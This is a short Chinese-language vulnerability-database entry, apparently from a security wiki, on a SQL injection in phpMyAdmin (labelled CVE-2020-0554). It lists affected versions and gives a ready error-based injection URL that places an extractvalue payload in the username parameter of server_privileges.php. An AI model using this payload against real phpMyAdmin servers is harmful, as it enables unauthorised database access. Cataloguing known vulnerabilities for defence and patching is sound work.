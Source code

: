 ```yaml
---
title: 'phpMyAdmin SQL注入(CVE-2020-0554)'
date: Fri, 25 Sep 2020 07:23:11 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

phpMyAdmin 4 < 4.9.4 phpMyAdmin 5 < 5.0.1 已知一个用户名密码

### 漏洞利用

注入点为username，报错注入，语句格式如下```
http://**********/server_privileges.php?ajax_request=true&validate_username=1&username=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server 
```